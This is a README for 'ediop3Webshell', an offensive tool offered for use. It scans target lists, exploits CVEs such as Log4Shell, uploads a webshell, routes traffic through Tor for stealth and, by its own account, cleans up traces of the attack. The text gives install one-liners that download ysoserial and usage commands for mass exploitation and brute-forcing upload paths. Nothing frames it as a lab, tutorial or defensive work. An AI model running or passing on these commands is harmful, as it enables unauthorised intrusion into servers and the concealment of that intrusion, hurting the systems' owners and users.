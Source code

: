 # ediop3Webshell
A exploitation tool (webshell)

# for termux install thesee
pkg update -y && pkg install -y curl netcat-openbsd wget coreutils tor openjdk-17 python python-pip && pip install marshalsec && wget -qO ~/ysoserial.jar https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar && git clone https://github.com/ediop3SquadALT/ediop3Webshell && cd ediop3webshell 


# for kali / parrot os
sudo apt update -y && sudo apt install -y curl netcat wget tor openjdk-17-jre python3 python3-pip && pip3 install marshalsec && wget -qO ~/ysoserial.jar https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar && git clone https://github.com/ediop3SquadALT/ediop3Webshell


  # How to Use ediop3Webshell 

Make the script executable by running:
chmod +x ediop3webshell.sh

Basic usage requires a target file (-t) and your webshell (-w):
./ediop3webshell.sh -t targets.txt -w shell.php

For stealth mode with Tor routing, add the -p flag:
./ediop3webshell.sh -t targets.txt -w shell.php -p

To target a specific CVE (like Log4Shell), use the -c option:
./ediop3webshell.sh -t targets.txt -w shell.php -c CVE-2021-44228

For advanced scanning (CVE-2023-47246) with a wordlist:
./ediop3webshell.sh -t targets.txt --scan-cve-2023-47246 paths.txt

To list all available CVEs and payloads:
./ediop3webshell.sh --list-cves
./ediop3webshell.sh --list-payloads

For brute-force upload path discovery:
./ediop3webshell.sh -t targets.txt -w shell.php --upload-wordlist upload_paths.txt

The script will automatically:

  Scan and identify vulnerable systems

  Attempt exploitation using the best available method

  Upload your webshell if successful

  Clean up traces of the attack

  Logs are saved to:

  ediop3_ops.log (visible log)

/var/tmp/.ediophist (hidden log)

For maximum effectiveness:

Use fresh target lists

Customize your webshell

Verify all dependencies are working

Monitor the log files for results
